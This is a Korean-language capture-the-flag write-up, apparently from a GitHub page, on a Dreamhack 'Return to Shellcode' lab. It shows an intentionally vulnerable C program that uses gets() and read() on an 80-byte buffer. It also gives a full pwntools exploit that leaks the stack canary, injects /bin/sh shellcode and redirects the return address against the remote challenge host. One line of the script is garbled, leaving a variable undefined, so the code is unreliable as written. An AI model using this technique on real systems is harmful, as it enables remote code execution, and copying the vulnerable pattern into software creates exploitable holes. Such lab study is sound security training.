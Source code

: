 # Exploit Tech: Return to Shellcode

**r2s.c 파일**

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

처음 보이는게 

```c
int main() {
  char buf[0x50];
	...
	read(0, buf, 0x100);
	...
	gets(buf);
```

buf의 크기보다 더 큰 값을 read하고 있다

buf에 bin/sh 로 가는 셀코드를 넣고 50바이트에 맞춰서 다른값을 넣고

카나리값을 덮어씌운뒤

리턴 주소를 buf 주소로 바꿔두면 될 것 같다

![image](https://github.com/user-attachments/assets/3290865b-7d63-42b5-982f-18df3de339cf)

우선 실행시켜보면 buf 주소와$rbp와 버퍼사이에 

96바이트 크기가 할당되어있다는 걸 알 수 있다  

<br>
(틀린답임 뒤에 정정된 내용이 나옴)

80바이트는 buf  
8바이트는 카나리   
8바이트는 리턴 주소   
가 있을 것이므로 첫번째 입력에서 buf의 카나리값을 얻고 두번째 입력에서 buf의 카나리값을 덮어씌우기로 한다
(지금부턴 맞는 말)  

혼자서 풀어보다가  
카나리를 어떻게 받는지 잘모르겠어서 강의록을 보고 풀었는데

checksec을 통해 보호기법을 알수있다는것과

 생각보다 긴 코드가 나와있었다

```python
#!/usr/bin/env python3
# Name: r2s.py
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = remote('host3.dreamhack.games',21102)

context.arch = "amd64"

# get information about buf
p.recvuntil(b"buf: ")
buf = int(p.recvline()[:-1], 16)
print("Address of buf : ", hex(buf))

p.recvuntil(b"$rbp: ")
buf2sfp = int(p.recvline())
buf2
cnry = buf2sfp - 8

print("buf <=> sfp : ", buf2sfp) # distance
print("buf <=> canary : ", buf2cnry) # distance

payload = b'a' * (buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b"Input:", payload)
p.recvuntil(payload)
cnry = u64(b"\x00" + p.recvn(7))
print("Canry : ", cnry)

sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b"a") + p64(cnry) + b"b" * 0x8 + p64(buf)

# gets() receives input until "\n" is received
p.sendlineafter(b"Input:", payload)

p.interactive()
```

buf 의 주소를 받고

rbp와의 거리도 받고

buf2sfp에는 buf와 sfp와의 거리를

buf2cnry에는 buf와 cnry와의 거리를 넣어던뒤

페이로드에 buf2cnry 에 1을 더한 쓰레기값을 넣는다 (1바이트는 널문자니까)

그러면 원래 출력되야할 기존 입력값이 아닌 카나리 값이 출력되는데 그 값을 받아서 다음 입력 때 사용하는 것이다 (둘 다 buf 에 넣는거니까 카나리값이 동일)

bin/sh 로 접근하는 셀코드를 만들어주고 페이로드에 넣어준다

그리고 위에 잘못 이햐한 부분이 있는데

buf와 sfp와 거리가 96바이트이고

buf와 canary와 거리가 88바이트인걸 봐선 

80바이트 크기의 buf

8바이트 카나리

8바이트 sfp

8바이트 리턴주소

이렇게 구성되어있는거같다

코드를 실행해보면
![image](https://github.com/user-attachments/assets/d1f67e23-72a5-4f7c-a447-e03fd353c058)

잘 나온다.
